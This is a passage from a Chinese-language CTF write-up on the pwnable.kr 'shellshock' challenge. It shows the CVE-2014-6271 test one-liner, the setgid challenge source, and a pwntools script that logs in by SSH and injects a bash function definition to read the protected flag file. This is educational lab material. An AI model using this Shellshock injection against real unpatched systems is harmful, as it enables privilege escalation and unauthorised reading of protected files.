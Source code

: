 ## 0x0A  shellsock

CVE-2014-6271 Shellsock

利用方式：

```bash
env x='() { :;}; echo vulnerable'  bash -c "echo this is a test"
```

原理分析：https://blog.csdn.net/tinyletero/article/details/40261593

题目源码

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

程序目录权限(ls -l)

```
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

注意到 flag是shellshock_pwn可读的

所以我们可以利用./shellsock程序获得读权限，加上之前利用shellsock拼接的“cat flag”就可以读到flag了

Exp:

```python
#coding=utf-8
from pwn import *


shell=ssh(host='pwnable.kr',user='shellshock',password='guest',port=2222)

#shell.download_file("./shellshock.c")
#shell.download_file("./shellshock")

sh=shell.run('sh')
sh.sendline("env x='() { :;}; bash -c \"cat flag\" ' ./shellshock")
sh.interactive()
```

## 0x0B coin

称硬币找不同
